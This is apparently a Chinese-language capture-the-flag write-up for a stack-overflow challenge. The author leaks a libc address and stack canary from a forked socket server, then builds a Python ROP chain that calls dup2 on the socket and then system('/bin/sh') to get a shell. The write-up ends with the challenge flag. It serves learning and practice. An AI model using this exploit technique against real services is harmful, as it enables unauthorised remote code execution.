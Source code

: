 tutorial
==========
由於自己對於網路程式設計還沒有概念，而且執行檔在 local 跑不起來，不能用 gdb 觀察，所以看得蠻吃力的。後來感謝 bruce 學長的提點，才順利解出來XD

解題流程
----------
程式一開始會建立 socket 連線，然後執行 ```fork``` 後進入 ```menu(int socket)``` 選單。
* 選項 1 會輸出 ```puts()``` 的 address 扣掉 1280 的值，可以從這邊推出 libc address。
* 選項 2 會接收長達 460 bytes 的輸入，並從輸入 buffer 開始輸出 324bytes。透過 IDA 得知該 buffer 的起點位在  ```rbp-320``` ，所以這裡可以 leak 出位於 ```rbp-8``` 的 canary。
* 選項 3 離開程式。

```
write(socket_num, "Time to test your exploit...\n", 0x1DuLL);
write(socket_num, ">", 1uLL);
read(socket_num, &s, 460uLL);
write(socket_num, &s, 324uLL);
```

----------
有了 libc address 和 canary 後就可以開始蓋 ROP chain 了。原本想直接蓋 ```system``` 開 shell，不知道為什麼失敗了，問了才知道由於前面的 ```fork```，這邊直接叫 ```system``` 的話 file descriptor 會接不起來。所以我們要先用 ```dup2()``` 把 fd 設好才行。

```python
chain = 'A'*312 + p64(canary) + 'B'*8 +
	 p64(pop_rsi_r15_ret) + p64(0x0) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rsi_r15_ret) + p64(0x1) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rdi_ret) + p64(binsh) + p64(system)
```

把一開始 ```accept``` 的回傳值送給 ```stdin``` 和 ```stdout``` 之後 call ```system``` 就可以拿到 shell 了。

	FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}

